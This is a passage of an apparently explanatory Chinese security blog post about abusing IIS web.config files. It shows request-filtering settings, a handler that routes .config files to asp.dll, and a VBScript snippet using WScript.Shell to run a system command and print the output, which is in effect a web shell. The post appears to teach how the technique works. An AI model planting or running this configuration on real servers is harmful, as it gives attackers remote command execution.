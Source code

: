 下面展示一下 requestFiltering 的不同配置可能带来的后果：

  

A：web.config 未配置 requestFiltering 项：

![](https://gitee.com/fuli009/images/raw/master/public/20230625172509.png)

 _错误码：404.8_

 _可能的原因：为 Web 服务器配置了请求筛选，它包含了 hiddenSegments 节，允许服务器管理员拒绝对特定目录的访问。_

因为默认配置中，将 “.config” 拓展名设置为 “隐藏” 的，所以无法直接访问；

  

B：web.config 仅配置 requestFiltering 项中的 fileExtensions。此时访问任意 “.config”
文件时的报错提示同上，就不贴图片了；

  

 C：web.config 仅配置 requestFiltering 项中hiddenSegments。

  

![](https://gitee.com/fuli009/images/raw/master/public/20230625172510.png)

 _错误码：404.7_

 _可能的原因：为 Web 服务器配置了请求筛选，此请求的文件拓展名被明确拒绝。_

  

 **然后** ，配置文件中的 handlers 的是灵魂

      <handlers accessPolicy="Read, Script, Write">

         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />

      </handlers>

从配置中比较容易理解，新建一个新的叫 “web_config”的处理器，这个处理器会将 “.config” 文件交给 asp.dll
处理，这样就能对文件中的 asp 脚本部分做解析。

Set wShell1 = CreateObject("WScript.Shell")

Set cmd1 = wShell1.Exec("ifconfig")

output1 = cmd1.StdOut.Readall()

set cmd1 = nothing: Set wShell1 = nothing

Response.write(output1)

配合着下半部分的代码，这部分 asp 脚本的语言是 VBscript，主要的逻辑是新建一个 WScript.shell
对象，用来直接执行系统命令，然后将结果输出。

  

 **最后** ，再来看一下，当我们访问 web.config 时都发生了些什么：

  

当 IIS 收到对 web.config 请求的时候，会先读取 web.config 的内容（访问任意内容时都会先读取 web.config），读取了
web.config 内容并解析之后，因为配置中的 requestFiltering，开放了对 “.config”的访问，那么这次访问不会 404。
